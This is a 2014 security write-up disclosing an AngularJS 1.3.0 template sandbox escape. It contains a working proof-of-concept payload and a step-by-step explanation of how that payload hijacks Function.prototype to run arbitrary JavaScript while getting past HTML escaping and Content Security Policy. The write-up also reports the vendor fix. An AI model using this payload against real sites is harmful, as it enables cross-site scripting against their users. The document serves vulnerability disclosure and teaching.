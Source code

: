 ```yaml
---
layout:     post
title:      An AngularJS Template Expression Sandbox Escape
date:       2014-11-09 00:00
canonical:  https://gist.github.com/molnarg/5348cd4254cabc1d4f7b
---
```


Short Proof of Concept
----------------------

```html
<!doctype html>
<html>
<head>
    <script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.3.0/angular.js">
    </script>
</head>
<body ng-app>
    {{ "{{" }}
    !ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(42);'
        ))
    );
    }}
</body>
</html>
```

See also on jsfiddle [with HTML entities escaping](http://jsfiddle.net/cm7n1ug4/3/) and [without escaping](http://jsfiddle.net/uesh50vo/).

AngularJS Template Expression Sandbox Escapes in General
--------------------------------------------------------

AngularJS has a rich client side templating system that accepts JavaScript expressions wrapped in double curly braces (mustache style templating). The template code is interpreted by an interpreter written in JS itself, and prevents the template code from accessing the DOM, and sensitive objects and functions (`eval()`, `Function()`, `bind()`, `apply()`, `call()` etc.) that would allow arbitrary JS execution.

Bugs in this sandbox mechanism can lead to XSS when mixing client side and server side templating like this:

```html
<div ng-app>
{{ '<?php echo $username; ?>' === 'admin' ? 'You are admin!' : 'You are not admin!' }}
</div>
```

But why would you want to trick the sandboxing code when you can simply create a `<script>` tag just like in a regular XSS without much hassle? The answer is that you can bypass XSS protection mechanisms like these:

1. `<?php echo htmlentities($username) ?>` and `<?php echo htmlspecialchars($username) ?>` won't help this time. It prevents creating HTML tags, but the JS template code will be interpreted and sandbox escape will still work.
2. It bypasses a strict [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/Security/CSP) defined to prevent XSS attack. In this case, no `<script>` tags are created, the code is executed by Angular. 

See also: [AngularJS sandbox escapes on the Mustache Security Wiki](https://code.google.com/p/mustache-security/wiki/AngularJS#Sandbox_Bypasses)

Bugs Abused
-----------

The sandbox bypass abuses three bugs:

1. It is possible to access the Function prototype as
   `toString.constructor.prototype`.
2. The `$$watchers` array is exposed on the scope and this makes it possible
   to call the template recursively with a given new scope.
3. When the scope is `Function.prototype`, `apply`, `bind` and `call` are
   all accessible and overwriteable (but not callable).

(1) is actually not new and was used in previous sandbox escapes as well,
but it seems like it was not fixed. I believe that (2) and (3) are new.

Detailed Explanation
--------------------

The first line ensures that the expression evaluates at most once per scope.
This is needed only to avoid the payload JS code from executing more than
once.

        !ready && (ready = true) && (

The whole payload will execute in two different contexts: first with the
original one, and later with `Function.prototype`. The following conditional
expression separates the code that should be executed in the main context
and the other context. We assume that `call` is only defined in the function
prototype context, so the main context code is the first branch and the
function prototype code is the second branch.

          !call
          ? ...
          : ...

The main context code runs first. It calls the template recursively with
`Function.prototype` as context. It is made possible by the exposed
`$$watchers[0].get` function which evaluates the current template with a
given scope. `Function.prototype` is not accessible directly, but we can use
`toString.constructor.prototype` instead.

          ? $$watchers[0].get(toString.constructor.prototype)

The following lines evaluate only when the context is `Function.prototype`.
The first line saves a reference to `apply` to temporary variable on the
scope.

          : (a = apply) &&

The next two lines is equivalent to `Function.prototype.apply = Function` and
`Function.prototype.valueOf = Function.prototype.call`. These will be used
for tricking Angular into instantiating and calling a function for us in the
next step.

            (apply = constructor) &&
            (valueOf = call) &&

The following line first triggers the creation of a function with the code
given as argument to the `toString` method and then calls the method:

            (''+''.toString('js code'))

When interpreting `''.toString( ... )`, Angular actually uses `apply` to
invoke the method. With this in mind, and considering the previously
overwritten methods, the previous line is equivalent to these:

            (''+toString.apply('', ['js code']))
            (''+Function.prototype.apply.call(toString, '', ['js code']))
            (''+Function('', ['js code']))
            (''+Function('', 'js code'))
            (''+function() { js code })

The newly created function will be converted to string because of the '+'
operator, and as part of this process, the previously overwritten `valueOf`
method is called:

            (''+function() { js code }.valueOf())
            (''+function() { js code }.call())
            (''+eval('js code'))


The actual JS code first restores every change to the Function class:

              'F = Function.prototype;' +
              'F.apply = F.a;' +
              'delete F.a;' +
              'delete F.valueOf;' +

and the executes the main payload:

              'alert(42);'

Acknowledgements
----------------

Thanks for [Mathias Karlsson](https://twitter.com/avlidienbrunn) for inspiring this work with his [previous sandbox escape](https://twitter.com/avlidienbrunn/status/513978256790663168), and the AngularJS team for quickly fixing the vulnerability. The fix has been released as part of [AngularJS 1.3.2](https://github.com/angular/angular.js/blob/master/CHANGELOG.md#132-cardiovasculatory-magnification-2014-11-07).

